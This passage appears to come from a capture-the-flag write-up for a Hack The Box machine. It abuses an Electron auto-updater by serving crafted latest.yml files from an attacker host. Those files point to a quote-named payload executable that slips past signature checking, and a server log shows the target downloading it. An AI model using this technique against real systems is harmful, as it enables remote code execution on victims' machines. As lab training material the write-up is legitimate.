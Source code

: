 I tried this instead:

```yaml
version: 1.0.1
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

This time I got some hits!

```bash
┌──(mac㉿kali)-[~/Documents/HTB/atom]
└─$ sudo python3 -m http.server 80
[sudo] password for mac: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
10.10.10.237 - - [22/Apr/2021 15:58:46] code 404, message File not found
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1'Setup1.0.1.exe.blockmap HTTP/1.1" 404 -
10.10.10.237 - - [22/Apr/2021 15:58:46] "GET /heedv1%27Setup1.0.1.exe HTTP/1.1" 200 -
```

It looks like it's also requesting a [blockmap file](https://github.com/electron-userland/electron-builder/issues/2851). It also looks like all the client folders work, so I'll only upload to one from now on.

I didn't get any hits on my handler. So let's re-add the `file` section to see if it helps:

```yaml
version: 1.0.1
files:
  url: heedv1'Setup1.0.1.exe
  sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  size: 73802
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```

I got rid of the hyphen as no one else used it, and instead set the "url" to be a relative path on the box.

However, I didn't get a hit. I looked up the [yaml syntax](https://docs.ansible.com/ansible/latest/reference_appendices/YAMLSyntax.html), and realised the issue might not be the presence of a hyphen, but the lack of hyphens on the other entries.

```yaml
version: 1.0.1
files:
  - url: heedv1'Setup1.0.1.exe
  - sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
  - size: 73802
path: http://10.10.14.167/heedv1'Setup1.0.1.exe
sha512: 0BsRscpeO3lQvkaP1fqRYWyw3lelkI/2qJ1BsshauD8kJ39nHJKFanTUVpUNRotgKkVljcEy/Is9U87FIbYrPw==
releaseDate: '2021-04-21T11:17:02.627Z'
```
